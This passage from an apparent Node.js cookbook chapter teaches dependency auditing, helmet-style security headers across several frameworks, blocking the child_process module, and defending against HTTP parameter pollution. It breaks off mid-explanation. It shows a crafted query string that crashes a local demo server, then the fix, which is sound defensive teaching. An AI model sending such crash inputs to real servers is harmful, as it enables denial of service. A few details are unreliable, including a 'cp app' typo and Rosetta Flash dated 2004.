





# 8 Dealing with Security

This chapter covers the following recipes

* Detecting Dependency Vulnerabilities
* Hardening Headers in Web Frameworks
* Anticipating Malicious Input
* Guarding Against Cross Site Scripting (XSS)
* Preventing Cross Site Request Forgery

## Introduction 

It's far from controversial to assert that security is paramount.

Nevertheless, as is evident from highly notable security breaches
in recent years security mistakes are made all the time.

With a focus on handling adversarial input in a web application context, 
this chapter explores security fundamentals and good Node.js practices 
to help build more secure Node systems. 

## Detecting Dependency Vulnerabilities

Thanks to the wealth of modules on NPM, we're able to mostly
focus on application logic, relying on the ecosystem for 
canned solutions. This does, however, lead to large dependency
trees and security vulnerabilities can be discovered at any time,
even for the most conscientious, mature and popular modules and
frameworks. 

In this recipe we demonstrate how to detect vulnerabilities
in a project's dependency tree.

### Getting Ready

We'll create a folder called `app`, initialize it as 
a package and install `express`:

```sh
$ mkdir app
$ cd app
$ npm init -y 
$ npm install express
```

We don't need to add any of our own code, since we're 
only checking dependencies.

### How to do it

We're going to use `auditjs` to automatically check our
dependency tree against vulnerability databases.

Let's install `auditjs` into our project `app` folder:

```sh
$ npm install --save-dev auditjs
```

Now let's add a field to the `scripts` object in the 
`package.json` file: 

```
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "audit": "auditjs"
  },
```

Finally we can audit our dependencies with 

```sh
$ npm run audit
```

This should output something like the following image.




### How it works

The `auditjs` tool traverses the entire dependency tree, 
and makes requests to the [OSS Index](https://ossindex.net/)
which aggregates vulnerability announcements from npm,
the Node Security Project, the National Vulnerability Database,
and Snyk.io, and others.  

The `auditjs` tool also checks the local version of `node`
to see if it's secure, so it can be useful to run `auditjs`
on a CI (Continuous Integration) machine that has the exact
`node` version as used in production.

We install it as a development dependency, and then add it
as an `audit` script in `package.json`. This means auditing
comes "bundled" with our project whenever it's shared among
multiple developers. 

### There's more

What other methods can we use to manage dependency security?

#### Module Vetting

We can arbitrarily check modules for vulnerabilities (at least the vulnerability
database maintained by [snyk.io](http://snyk.io)) without installing them.

Let's install the `snyk` CLI tool: 

```sh
$ npm install -g snyk
```

We need to run through an authentication process, let's run:

```sh
$ snyk wizard
```

And follow the steps that the wizard takes us through. 

Once complete we can check any module on npm for vulnerabilities using
the `snyk test` command. 

We could test the Hapi framework (which we haven't used at all in our project),
for instance: 

```sh
$ snyk test hapi
```

That should (hopefully!) pass with without vulnerabilities.

An old version of Hapi (version 11.1.2), will show vulnerabilities
in the tree: 

```sh
$ snyk test hapi@11.1.2
``` 

Running the above commands should look result in something like the following:


#### Restricting Core Module Usage 

Some core modules are very powerful, and we often depend on 
third party modules which may perform powerful operations 
with little transparency. 

This could lead to unintended vulnerabilities where user input is 
passed through a dependency tree that eventually leads to shell 
commands that could inadvertently allow for malicious input to control
our server. While the chances of this happening seem rare, the 
implications are severe. Depending on our use case, if we can eliminate
the risk, we're better off for it.

Let's write a small function which we can use to throw when 
a given core module is used thus allowing us to vet or at least 
monitor code (dependencies or otherwise) that uses the module. 

To demonstrate, let's create a folder called `core-restrict`
with an `index.js` file and an `example.js` file:

```sh
$ mkdir core-restrict
$ cd core-restrict
$ touch index.js example.js
```

In our `index.js` file we'll put the following code:

```js
module.exports = function (name) {
  require.cache[name] = {}
  Object.defineProperty(require.cache[name], 'exports', {
   get: () => { throw Error(`The ${name} module is restricted`) }
  })
}

```

Now we can try it out with the `example.js` file:

```js
const restrict = require('./')
restrict('child_process')

const cp = require('child_process')
```

If we run `example.js`:

```sh
$ node example.js
```

It should throw an error, stating "The child_process module is restricted".

This technique takes advantage of Node's module loading algorithm, it 
checks the loaded module cache (which we access through `require.cache`)
for namespace before it attempts to load a built in module. We override
the cache with that namespace and use `Object.defineProperty` to make 
a property definition on the `exports` key that throws an error when 
the key is accessed.

### See also

* *Installing Dependencies* in **Chapter 2 Writing Modules**
* *Creating an Express Web App* in **Chapter 7 Working with Web Frameworks**
* *Creating a Hapi Web App* in **Chapter 7 Working with Web Frameworks**


## Hardening Headers in Web Frameworks

Due to Node's "batteries not included" philosophy, 
which has also influenced the philosophy of certain
web frameworks (like Express), security features often
tend to be a manual addon, or at least a matter of
manual configuration. 

In this recipe we'll show how to harden an Express 
web server (along with hardening servers built with
other frameworks in the There's More section). 

### Getting Ready

We're going to use the official Express application generator
because this definitively identifies the standard defaults
of an Express project.

Let's install `express-genenerator` and use it to create an 
Express project named `app`:

```sh
$ npm install -g express-generator
$ express app
$ cp app
$ npm install
```

> #### Web Frameworks 
> In this recipe we're hardening Express, in the There's More
> section we harden various other frameworks. For a comprehensive
> introduction to Web Frameworks see **Chapter 7 Working with Web Frameworks**

A final step to getting ready, since this book is written using
[StandardJS](http://npm.im/standard) lint rules, is to automatically
convert the generator to `standard` linting:

```sh
$ npm install -g standard
$ standard --fix
```

### How to do it

Let's begin by starting our server, in the `app` folder we run:

```sh
$ npm start
```

Now in another tab, let's take a look at our Express apps
default HTTP headers:

```sh
$ curl -I http://localhost:3000
```

If `curl` isn't installed in our system, we can achieve the same
result with the following:

```sh
$ node -e "require('http').get({port: 3000, method: 'head'})
.on('socket', (socket) => socket.pipe(process.stdout))"
```

The response should look something like the following:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 170
ETag: W/"aa-SNfgj6aecdqLGkiTQbf9lQ"
Date: Mon, 20 Mar 2017 11:55:42 GMT
Connection: close
```

Now let's install the [`helmet`](http://npm.im/helmet) module. 

```sh
$ npm install --save helmet
```

In our `app.js` file we'll require `helmet` at the end of the 
included modules, but before we require local files:

```js
var express = require('express')
var path = require('path')
var favicon = require('serve-favicon')
var logger = require('morgan')
var cookieParser = require('cookie-parser')
var bodyParser = require('body-parser')
var helmet = require('helmet')
var index = require('./routes/index')
var users = require('./routes/users')
```

We can see `helmet` is required now, just above `index` and 
below `bodyParser`. 

Next we'll include `helmet` as middleware, at the top of the middleware
stack: 

```js
app.use(helmet())
app.use(logger('dev'))
app.use(bodyParser.json())
app.use(bodyParser.urlencoded({ extended: false }))
app.use(cookieParser())
app.use(express.static(path.join(__dirname, 'public')))
```

Ok, let's press Ctrl+C to stop our server, and then start it again:

```sh
$ npm start
```

In another terminal let's make the same HEAD request: 

```sh
$ curl -I http://localhost:3000
```

Or the following in the absence of `curl`:

```sh
$ node -e "require('http').get({port: 3000, method: 'head'})
.on('socket', (socket) => socket.pipe(process.stdout))"
```

We should now see something like:

```
HTTP/1.1 200 OK
X-DNS-Prefetch-Control: off
X-Frame-Options: SAMEORIGIN
X-Download-Options: noopen
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Type: text/html; charset=utf-8
Content-Length: 170
ETag: W/"aa-SNfgj6aecdqLGkiTQbf9lQ"
Date: Mon, 20 Mar 2017 12:00:44 GMT
Connection: close
```

Note the removal of `X-Powered-By` and the addition of several 
new `X-` prefixed headers. 

### How it works

The `helmet` module is a collection of Express middleware,
that provides some sane security defaults when included.

The first sane default is removing the `X-Powered-By` header.

In the previous recipe we saw an older version of Express, 
with several known, and public vulnerabilities. 

Before we included `helmet` the header output contained: 

```
X-Powered-By: Express
```

While there are other ways to identify an Express server,
the first way we can harden our server, is to prevent it
being a low hanging fruit for automated attacks.

This is purely obfuscation, but it makes our server statistically 
less vulnerable. 

Next, `helmet` adds the `X-DNS-Prefetch-Control` with the value
set to `off`. This instructs browsers not to prefetch DNS records
for references within an HTML page (for instance, a link to a
third party domain may cause a browser to trigger a lookup request
to the domain). While this (and other types of prefetching) seems 
like a good idea (for client side performance), it does lead
to privacy issues. For instance, a user on a corporate network 
may have appeared to access content that was only *linked* from 
a page. The `helmet` module disables this by default.

> #### `lusca` 
> A popular alternative to `helmet` is [`lusca`](http://npm.im/lusca),
> it provides the same essential features as `helmet` and then some.

The next header, `X-Frame-Options: SAMEORIGIN` prevents iframe
based [Click Jacking](https://en.wikipedia.org/wiki/Clickjacking)
where our site may be loaded in an `<iframe>` HTML element on a
malicious site, but positioned behind other content that instigates
a user click. This click can then be used in a "bait and switch"
where click actually applies to an element on our site
*within* the iframe. Setting `X-Frame-Options` to `SAMEORIGIN` instructs
the browser to disallow the endpoint to be loaded in an iframe unless
the iframe is hosted on the same domain.

The `X-Download-Options: noopen` is an archaic throwback that
attempts to protect what remains of the Internet Explorer 8
user base (it may, by now, at time of reading, have been removed from `helmet`
defaults). Internet Explorer 8, by default, opens downloaded files
(such as HTML) with the authority of the site it was downloaded from.
This header disables that behavior.

The MIME type of a document is important, it describes the structure 
of the content, for instance `text/css` and `application/javascript`
have very different qualities, expectations and powers.
Browsers can attempt to guess the MIME type of a document, and
even in some cases (IE in particular), ignore the MIME type
sent from the server. This opens up the possibility of attacks 
that bypass security mechanisms by veiling themselves in an alternative
MIME type format, and then somehow switching back and being executed
in their original format to run malicious code. A very sophisticated
manifestation of this attack comes in the form of the [Rosetta Flash](https://miki.it/blog/2014/7/8/abusing-jsonp-with-rosetta-flash/)
attack created in 2004 to demonstrate the vulnerability (see https://miki.it/blog/2014/7/8/abusing-jsonp-with-rosetta-flash/).
Setting the `X-Content-Type-Options` to `nosniff` instructs the browser
to never guess and override the MIME type, rendering such attacks impossible.

The final `X-XSS-Protection` is supported in Internet Explorer and chrome.
The name is very much a misnomer, since `X-XSS-Protection` provides
very little protection from Cross Site Scripting. In fact, 
in Internet Explorer 8, when it was introduced,
the `X-XSS-Protection` header *created* an XSS vulnerability. So 
this piece of `helmet` also performs User Agent detection and disables
it for Internet Explorer 8. 


> #### XSS 
> We address Cross Site Scripting in detail in the 
> **Guarding Against Cross Site Scripting (XSS)** recipe
> in this chapter.

Setting the `X-XSS-Protection` header to `1; mode=block` instructs
the Internet Explorer to refuse to render when it detects a 
Reflected XSS attack (e.g. a non-persistent attack, such as crafting a 
URL with a query parameter the executes JavaScript). In Chrome the
`X-XSS-Protection` header is used to opt-out (by setting to `0`) 
of Chromes XSS auditor, which will automatically attempt to filter out
malicious URL pieces. 

In either case the `XSS-Protection` header shouldn't be relied 
on as complete protection from XSS attacks, since it deals only
with Reflected XSS which is only one type.  
Additionally, the ability for a browser to detect a reflected XSS attack 
place is non-trivial (and can be worked around, see the 
**Guarding Against Cross Site Scripting (XSS)** recipe).

One other header that `helmet` sets by default is the
`Strict-Transport-Security` which is only enabled for
HTTPS requests. Since we don't have HTTPS implemented,  
we don't see this header in output. Once a browser visits
a site over HTTPS using the `Strict-Transport-Security`
that browser becomes locked-in to using HTTPS, every 
subsequent visit must use HTTPS.

> #### Other `helmet` extras 
> The `helmet` library can also enable a few other headers.
> In some cases, we may wish to disable client caching. 
> The `helmet.noCache` middleware will set a variety of headers 
> so that caching is eradicated from old and new browsers alike,
> as well instructing Content Delivery Networks (CDNs) to drop the cache. 
> The `helmet.referrerPolicy` restricts the `Referrer` header, 
> which privacy conscious users may appreciate. 
> The `helmet.hkpk` middleware sets the `Public-Key-Pins` header,
> which we have to supply with a public key that appears in a sites
> SSL certificate chain. This causes the browser to store the key,
> and compare it on subsequent requests thus securing against the
> the possibility of a rogue Certificate Authority (CA) (or other
> SSL based Person in the Middle attack)
> Finally there's the `helmet.contentSecurityPolicy` middleware which 
> we'll explore in more detail in the **Guarding Against Cross Site Scripting (XSS)**
> recipe in this chapter.

### There's more

Let's explore the other ways a potential attacker might identify
our server, and how to apply `helmets` sane defaults to other 
Web Frameworks (and even with Node's `http` core module). Additionally,
we'll also discuss the non-default security headers `helmet` can set. 

#### Avoiding fingerprinting

The `X-Powered-By` is one way vulnerability scanners will use
to fingerprint a server, but other heuristics are employed by more sophisticated
bots.

For instance, Node servers in general have a tendency towards 
lower case HTTP headers, the more lower case headers that appear 
the more likely a server is to be running Node. The only way to avoid this
is to ensure that when our code (or our dependencies code) set's a header,
it uses more typical casing.

Another case is the session cookie name, which in `express-session`
(the official middleware for Express sessions) defaults to `connect.sid`.

In Hapi, with the `hapi-auth-cookie` plugin, the default is `sid`
or with the `yar` plugin the default is `session`. These are slightly more
generic, but still identifiable, especially given the way case is used 
(again lowercase is a give away). In all cases, the session name is
configurable, and we might want to set it to something like `SESSIONID`. 

The format of the ETag header is another consideration. Since ETag
generation is unspecified in the HTTP specification, the format of header 
is often unique to the framework that generates it. In the case of Express,
ETag output has changed between major versions, so it's possible to 
parse ETag headers to identify the version of Express a server is using. 

Finally there's error pages (such as 404 or 500 page), 
the wording, html structure, styling can all help to identify the server.   

#### Hardening a core `http` server

The `helmet` module is just set of useful Express middlewares.
It provides sane defaults.
All of the `helmet` library's default enabled middleware simply
modifies the response header. Now that we're aware of the sane
defaults, we can do the same with an HTTP server 
written entirely with the core HTTP module.

Let's create a folder called `http-app` and create `index.js` 
file in it.

Let's open `index.js` in our favorite editor, and write the following:

```js
const http = require('http')

const server = http.createServer((req, res) => {
  secureHeaders(res)
  switch (req.url) {
    case '/': return res.end('hello world')
    case '/users': return res.end('oh, some users!')
    default: return error('404', res)
  }
})

function secureHeaders (res) {
  res.setHeader('X-DNS-Prefetch-Control', 'off')
  res.setHeader('X-Frame-Options', 'SAMEORIGIN')
  res.setHeader('X-Download-Options', 'noopen')
  res.setHeader('X-Content-Type-Options', 'nosniff')
  res.setHeader('X-XSS-Protection', '1; mode=block')
}

function error(code, res) {
  res.statusCode = code
  res.end(http.STATUS_CODES[code])
}

server.listen(3000)
```

Here we emulate the fundamental functionality from our main 
recipe. The `secureHeaders` function simply takes the 
response object, and calls `setHeader` for each of the
headers discussed in the main recipe.

#### Hardening Koa

> #### Warning: Koa v2 requires Node 8 or higher 
> Due to Koa's use of ES2015 `async/await` this example will only
> run in Node 8 or higher. For more information about Koa see 
> *Creating a Koa Web App* in **Chapter 7 Working with Web Frameworks**. 

If we're using Koa, we can avail of `koa-helmet`, which is,
as the name suggests, `helmet` for `koa`.

To demonstrate, let's use the `koa-gen` tool to generate 
a Koa (v2) app: 

```sh
$ npm install -g koa-gen 
$ koa koa-app
```

Next let's install `koa-helmet`

```sh
$ npm i --save koa-helmet
```

Now we'll edit the `app.js` file, we'll add our 
dependency just above where `koa-router` is required:

```js
const Koa = require('koa')
const app = new Koa()
const helmet = require('koa-helmet')
const router = require('koa-router')()
const views = require('koa-views')
``` 

Next we'll place the `koa-helmet` middleware at the top of the 
middleware stack:

```js
// middlewares
app.use(helmet())
app.use(bodyparser())
app.use(json())
app.use(log4js.koaLogger(log4js.getLogger('http'), { level: 'auto' }))
app.use(serve(path.join(__dirname, 'public')))
```

Finally we'll start out server and check the headers:

```sh
$ npm start
```

Then with `curl`:

```sh
$ curl -I http://localhost:3000
```

Or without `curl`:

```sh
$ node -e "require('http').get({port: 3000, method: 'head'})
.on('socket', (socket) => socket.pipe(process.stdout))"
```

This should lead to something similar to the following output:

```
HTTP/1.1 200 OK
X-DNS-Prefetch-Control: off
X-Frame-Options: SAMEORIGIN
X-Download-Options: noopen
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Type: text/html; charset=utf-8
Content-Length: 191
Date: Mon, 20 Mar 2017 17:35:28 GMT
Connection: keep-alive
```

#### Hardening Hapi

We'll use a starter kit to quickly create a Hapi app:

```sh
$ git clone https://github.com/azaritech/hapi-starter-kit hapi-app
$ cd hapi-app
$ git reset --hard 5b6281
$ npm install
```

Hapi doesn't have an equivalent of `helmet` so we'll have to 
add the headers ourselves. The way to achieve this globally
(e.g. across every request) is with the `onPreResponse` extension 
(Hapi terminology for a hook).

In the `index.js` file, just under the statement
beginning `init.connections` we add:

```js
server.ext('onPreResponse', (request, reply) => {
  var response = request.response.isBoom ? 
    request.response.output : 
    request.response;
  response.headers['X-DNS-Prefetch-Control'] = 'off';
  response.headers['X-DNS-Prefetch-Control'] = 'off';
  response.headers['X-Frame-Options'] = 'SAMEORIGIN';
  response.headers['X-Download-Options'] = 'noopen';
  response.headers['X-Content-Type-Options'] = 'nosniff';
  response.headers['X-XSS-Protection'] = '1; mode=block';
  reply.continue();
});
```

The function we supplied as the second argument to `server.ext`
will be called prior to every response. We have to check for 
`Boom` objects (Hapi error objects) because error response
object is located on `requests.response.output`. Other than we simply
set properties on the `response.headers` and then call `reply.continue()`
to pass control back to the framework. 

If we hit our server with `curl`:

```sh
$ curl -I http://localhost:3000
```

Or with `node` instead of `curl`:

```sh
$ node -e "require('http').get({port: 3000, method: 'head'})
.on('socket', (socket) => socket.pipe(process.stdout))"
```

We should see something similar to: 

```
HTTP/1.1 200 OK
X-DNS-Prefetch-Control: off
X-Frame-Options: SAMEORIGIN
X-Download-Options: noopen
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
cache-control: no-cache
content-type: text/html; charset=utf-8
content-length: 16
vary: accept-encoding
Date: Mon, 20 Mar 2017 19:28:59 GMT
Connection: keep-alive
```

### See also

* *Enabling Debug Logs* in **Chapter 1 Debugging Processes**
* *Creating an HTTP server* in **Chapter 5 Wielding Web Protocols**
* *Creating a Koa Web App* in **Chapter 7 Working with Web Frameworks**
* *Creating an Express Web App* in **Chapter 7 Working with Web Frameworks**
* *Creating a Hapi Web App* in **Chapter 7 Working with Web Frameworks**


## Anticipating Malicious Input

Malicious input can often catch us by surprise. We tend to
cater to the common cases of but can easily neglect more 
esoteric vulnerabilities resulting from unexpected or forgotten behaviors.

In the main recipe we'll focus on the parameter pollution
case, in the There's More section we'll cover other important
but often unfamiliar areas such as JSON validation and user input
driven Buffer creation.

Parameter pollution is quite a subtle form of attack, 
and if we're not aware of the default way our framework
and code handles this form of input validation, we may 
open ourselves to Denial of Service attacks, and in 
some cases allow for XSS or CSRF attacks. 

In this recipe we're going to protect a server from 
HTTP Parameter pollution.

### Getting Ready

We'll use Express in this recipe, however the particular way 
Express handles this case represents the norm across frameworks,
and indeed the behavior corresponds to Node core functionality. 

So let's create a tiny Express app, that shouts back whatever
message we give it.

We'll create an `app` folder, initialize it as a package, install
`express` and create an `index.js` file:

```sh
$ mkdir app
$ cd app
$ npm init -y
$ npm install --save express
$ touch index.js
```

Our `index.js` file should look like the following:

```js
const express = require('express')
const app = express()

app.get('/', (req, res) => {
  pretendDbQuery(() => {
    const yelling = (req.query.msg || '').toUpperCase()
    res.send(yelling)
  })
})

app.listen(3000)

function pretendDbQuery (cb) {
  setTimeout(cb, 0)
}
```

### How to do it

Let's start the server we prepared in the **Getting Ready** section:

```sh
$ node index.js
```

Now let's check it's functionality:

```sh
$ curl http://localhost:3000/?msg=hello
HELLO
```

Using just `node` we can make the same request with:

```sh
$ node -e "require('http').get('http://localhost:3000/?msg=hello', 
(res) => res.pipe(process.stdout))"
HELLO
```

Seems to be working just fine. 

But what if we do this:

```sh
$ curl -g http://localhost:3000/?msg[]=hello
curl: (52) Empty reply from server
```

> #### `curl -g` 
> The `-g` flag when passed to curl turns of a globbing option,
> which allows us to use the square brackets in a URL

Or if `curl` is available, we can do it with `node` like so:

```sh
$ require('http').get('http://localhost:3000/?msg[]=hello')
events.js:160
      throw er; // Unhandled 'error' event
      ^

Error: socket hang up
    at createHangUpError (_http_client.js:253:15)
    at Socket.socketOnEnd (_http_client.js:345:23)
    at emitNone (events.js:91:20)
    at Socket.emit (events.js:185:7)
    at endReadableNT (_stream_readable.js:974:12)
    at _combinedTickCallback (internal/process/next_tick.js:80:11)
    at process._tickCallback (internal/process/next_tick.js:104:9)
```

Seems like our server has crashed. 

Seems like that's a Denial of Service attack vector.

What's the error message?

```
/app/index.js:8
    const yelling = (req.query.msg || '').toUpperCase()
                                          ^

TypeError: req.query.msg.toUpperCase is not a function
    at Timeout.pretendDbQuery [as _onTimeout] (/app/index.js:8:35)
    at ontimeout (timers.js:380:14)
    at tryOnTimeout (timers.js:244:5)
    at Timer.listOnTimeout (timers.js:214:5)
```

The `toUpperCase` method exists on the `String.prototype`, 
that is, every string has the `toUpperCase` method. 

If `req.query.msg.toUpperCase is not a function` then 
`req.query.msg` isn't a string. 

> #### What about POST requests 
> If the request was a POST request, our server would have the same
> problem because the body of a application/x-www-form-urlencoded
> POST request (the default for HTML forms) is also a query string.
> The only difference would be, instead of crafting a URL an attacker
> would have to trick a user into interacting with something that
> initiated a POST request (say by clicking a button to "win an iPhone")

Let's copy `index.js` to `index-fixed.js` and make the following change 
to our route handler:

```js
app.get('/', (req, res) => {
  pretendDbQuery(() => {
    var msg = req.query.msg

    if (Array.isArray(msg)) msg = msg.pop()

    const yelling = (msg || '').toUpperCase()
    res.send(yelling)
  })
})
```

Let's start our fixed server:

```sh
$ node index-fixed.js
```

Now if we try our malicious URL against the server:

```sh
$ curl -g http://localhost:3000/?msg[]=hello
HELLO
```

Or with `node`:

```sh
$ node -e "require('http').get('http://localhost:3000/?msg[]=hello', 
(res) => res.pipe(process.stdout))"
HELLO
```

### How it works

In this case the adversarial input takes advantage of a 
fairly common mistake - to assume that query string (or request body)
